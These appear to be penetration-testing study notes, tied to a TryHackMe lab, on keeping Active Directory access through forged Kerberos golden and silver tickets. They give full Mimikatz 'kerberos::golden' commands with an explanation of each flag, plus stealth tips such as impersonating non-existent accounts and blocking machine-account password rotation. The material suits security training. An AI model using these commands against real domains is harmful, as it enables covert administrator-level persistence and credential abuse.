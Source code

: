 # Active Directory  Persistence With Tickets


Understanding Kerberos is a must, view: [[Active-Directory-Kerberos-Authentication-Defined]] and then [[Attacking-Kerberos]]. 


When using [[Golden-Tickets]]:
- Extend the valid for X amount time field
- 20 minutes for the Ticket
- Accounts must be 20 minutes old! 
	- Also disabled, deleted, or non-existent account can be impersonated 
- Consider making them on non-domain joined for stealth

When using [[Silver-Tickets]]:
- We can leverage the access our TGS provides to gain access to the host's registry and alter the parameter that is responsible for the password rotation of the machine account
- Permissions are detirmined through SID so Non-existent users must have relevant SIDs, i.e SID that indictated the users to be in host's local administrators group 

Use AD-RSAT for Domain SID, then Golden Ticket with [[Mimikatz-Cheatsheet]]
```powershell
Get-ADDomain
# Mimikatz
# Golden Ticket
kerberos::golden /admin:$admin /domain:/$domain /id:500 /sid:$domain-SID /krbtgt:$krbtgt-hash /endin:600 /renewmax:10080 /ptt
```

-   **/admin** - The username we want to impersonate. This does not have to be a valid user.  
-   **/domain** - The FQDN of the domain we want to generate the ticket for.  
-   **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.  
-   **/sid** -The SID of the domain we want to generate the ticket for.
-   **/krbtgt** -The NTLM hash of the KRBTGT account.  
-   **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)  
-   **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)  
-   **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session now

```powershell
Get-ADDomain # for Domain SID
# Mimikatz
# Silver Tickets
kerberos::golden /admin:$admin /domain:$domain /id:500 /sid:$Domain-SID /target:$target-hostname-server /rc4:$ntlm-hash-of-machine-account /service:cifs /ptt

```

-   **/admin** - The username we want to impersonate. This does not have to be a valid user.  
-   **/domain** - The FQDN of the domain we want to generate the ticket for.  
-   **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.  
-   **/sid** -The SID of the domain we want to generate the ticket for.
-   **/target* - the hostname of target server  
-   **/rc4** - The NTLM has of the machine account of our target
-   **/service** - The service we are requesting in our TGS. CIFs is a safe bet, since it allows file access  
-   **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session now

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)